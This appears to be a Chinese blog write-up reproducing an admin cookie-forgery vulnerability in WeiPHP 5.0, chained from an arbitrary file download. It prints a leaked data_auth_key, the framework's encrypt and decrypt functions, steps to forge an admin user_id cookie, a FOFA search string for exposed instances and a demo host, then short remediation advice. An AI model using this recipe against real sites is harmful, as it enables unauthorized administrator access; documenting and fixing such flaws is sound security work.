




<!--more-->

基于前一篇的任意文件下载 可以进一步通过伪造cookie登陆

## 漏洞描述
Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本
Weiphp <= 5.0

## 环境搭建
在线验证： http://62.234.21.33 (换了一个)
本地源码审计

## FOFA
"WeiPHP5.0"

## 漏洞复现
首先通过任意文件下载得到database.php
拿到authkey
```
'data_auth_key' => 'VK^_`A#tSh"GL>=6<i?1/njJmk0U9xdwER+-ZWc7'
```

全局搜索 data_auth_key



看加密函数
```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```

解密函数:
```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```

然后找哪里调用了加解密方法可以找到这里


关键的判断是否登陆的函数 不难猜测admin的`$cookie_uid`是1
所以利用给的key和加密函数加密一次得到cookie 带上cookie就可以登陆



加上 `user_id=xxx` 刷新即可登陆



---
---

应该设置多元认证而不只是通过一个cookie来认证
使用AutoLogin的时候要谨慎
关键点还是在于前文提到的任意文件下载得到了`data_auth_key`
